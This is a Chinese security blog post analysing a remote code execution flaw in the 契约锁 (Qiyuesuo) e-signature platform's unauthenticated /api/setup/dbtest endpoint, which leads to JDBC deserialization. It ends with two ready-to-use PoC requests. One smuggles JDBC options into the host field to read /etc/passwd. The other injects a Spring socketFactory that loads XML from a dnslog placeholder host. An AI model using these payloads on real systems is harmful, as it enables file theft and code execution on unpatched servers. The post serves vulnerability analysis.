 > **原文链接**: https://mp.weixin.qq.com/s?__biz=Mzg3ODkzNjkxMg==&mid=2247484021&idx=1&sn=b6f49af4c972818f134a3a18872a4d20

#  契约锁RCE分析  
原创 Kokoxca安全  Kokoxca安全   2025-06-19 05:36  
  
0x01.技术文章仅供参考学习，请勿使用本文中所提供的任何技术信息或代码工具进行非法测试和违法行为。若使用者利用本文中技术信息或代码工具对任何计算机系统造成的任何直接或者间接的后果及损失，均由使用者本人负责。本文所提供的技术信息或代码工具仅供于学习，一切不良后果与文章作者无关。使用者应该遵守法律法规，并尊重他人的合法权益。  
  
0x02 漏洞分析  
  
近期也是突然发现契约锁在网上爆出来存在rce漏洞，博主也好久没更新文章了浅浅的写一篇吧![](https://res.wx.qq.com/t/wx_fed/we-emoji/res/assets/newemoji/LetMeSee.png "")  
  
  
言归正传这次爆出来的漏洞其实是契约锁最新更新了补丁，在补丁包中存在一个接口/setup/dbtest，根据补丁包中的接口进行源码分析。  
  
全局搜索/setup发现在  
classes/oss/com/qiyuesuo/config/ConsoleConfiguration[#ConsoleConfiguration中]()  
  
有的定义了接口是前台不需要鉴权的。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aYLtCGDrJ12k11xtJxVLG1gSmKes3nVZIicxPrFibuqsHhSEWv4H0FrnQSptz96UmIatmrT6upmVZUkMG04ichu7w/640?wx_fmt=png&from=appmsg "")  
  
接着全局搜索dbtest接口也就是这次的漏洞点。  
classes/oss/com/qiyuesuo/setup/SetupController#dbtest  
在代码中请求了一些数据库名，host，用户名等等，我们接着追check方法。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aYLtCGDrJ12k11xtJxVLG1gSmKes3nVZ9w9COmJhX8ZaRjEu9carYibt9vyBffeTsRdZib1DewVjE0calt3tY5uQ/640?wx_fmt=png&from=appmsg "")  
  
发现在check方法中调用validateDatabase方法去验证数据库，接着追validateDatabase方法看详细内容。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aYLtCGDrJ12k11xtJxVLG1gSmKes3nVZLreWonFKsfFMEdtYg1xxN3QAta2aHsicKa4pxyodsgJBIicwLfdjYASQ/640?wx_fmt=png&from=appmsg "")  
  
在validateDatabase方法中调用dbtest方法建立数据库连接。接着追dbtest方法。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aYLtCGDrJ12k11xtJxVLG1gSmKes3nVZZIpWDBWib81XnPUibpr1NMhtO7wtRkdehMysmM50Z7I2sfzELCiaJWOhw/640?wx_fmt=png&from=appmsg "")  
  
在追到dbtest方法处的时候就能清楚的看到是从databaseService获取数据库连接然后检查连接是否非空且有效等等然后追踪databaseService.getConnection方法直接就是我们常见的jdbc反序列化调用了这没什么好分析的了。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aYLtCGDrJ12k11xtJxVLG1gSmKes3nVZsDZXnEibprlJc57KXOoBYdqAC6Ms7OaGEFpppRxicffZgbS4ev08dRoQ/640?wx_fmt=png&from=appmsg "")  
  
然后就是在契约锁中默认配置了一些数据库如mysql，PostgreSQL等等。针对去构造poc利用就行。  
  
0x03 漏洞利用  
  
  
MYSQL如下：  

```
/api/setup/dbtest?db=MYSQL&host=127.0.0.1%3A3308%2Ftest%3FallowLoadLocalInfile%3Dtrue%26allowUrlInLocalInfile%3Dtrue%26name%3D1%26username%3Dfileread_%2Fetc%2Fpasswd%26password%3D1&port=1&name=1&username=fileread_/etc/passwd&password=1
```

  
  
PostgreSQL如下：  

```
/api/setup/dbtest?db=POSTGRESQL&host=localhost&port=5321&username=root&name=test%2F%3FsocketFactory%3Dorg%2Espringframework%2Econtext%2Esupport%2EClassPathXmlApplicationContext%26socketFactoryArg%3Dhttp%3A%2F%2Fxxx.dnslog.cn%2F1%2Exml
```

  
就目前来看是更新完补丁能打很少了。  
  
  
  
